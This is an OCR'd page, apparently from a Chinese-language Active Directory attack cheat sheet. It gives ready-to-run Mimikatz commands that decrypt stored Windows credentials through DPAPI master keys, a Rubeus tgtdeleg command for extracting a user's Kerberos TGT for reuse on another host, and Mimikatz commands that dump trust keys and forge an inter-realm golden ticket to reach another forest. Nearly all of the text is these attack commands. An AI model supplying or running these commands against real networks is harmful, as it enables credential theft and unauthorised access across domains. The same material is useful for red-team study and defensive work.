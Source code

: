 
## 使用Mimikatz解密Credentials
Usually encrypted credentials are stored in:


- %appdata%\Microsoft\Credentials
- %localappdata%\Microsoft\Credentials



```
#通过使用mimikatz的cred函数，我们可以枚举cred对象并获取有关它的信息：
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#在前面的命令中，我们对“ guidMasterKey”参数很感兴趣，该参数告诉我们使用了哪个主密钥对凭据进行加密
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#现在，如果我们处于凭据要登录的用户（或系统）的上下文中，则可以使用/rpc标志将主密钥的解密传递给域控制器：
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#现在，我们的本地缓存中有了masterKey：
dpapi::cache

#解密:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```
## 将管理员权限的TGT授给其他非管理员的机器
[https://www.anquanke.com/post/id/162606](https://www.anquanke.com/post/id/162606)
```cpp
你可以用Rubeus的 tgtdeleg 功能提取当前用户的 TGT，并将其和 /autorenew 标志一起传递给运行在另一台主机上的 Rubeus 的 renew 函数。这将允许你在不提权的情况下提取当前用户的凭证，并在另一台主机上进行最多7天（默认）的续订。

我们仅使用票证而不是帐户的哈希来执行攻击。
```
```cpp
Rubeus.exe tgtdeleg /nowrap
```
## 跨林攻击
Trust Tickets
```cpp
如果我们在与另一个林具有双向信任关系的域上具有域管理员权限，则可以获取“信任”密钥并伪造我们自己的跨域TGT。

注意:我们将具有的访问权限将限于我们的DA帐户在其他Forest中配置的权限！
```

- 使用Mimikatz：
```cpp
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#使用Golden Ticket攻击建立跨域TGT
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid: /
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"' #ticket要是.kribi
```
```cpp
然后，使用TGT向外部森林索取TGS以获取任何服务，并访问资源！
```
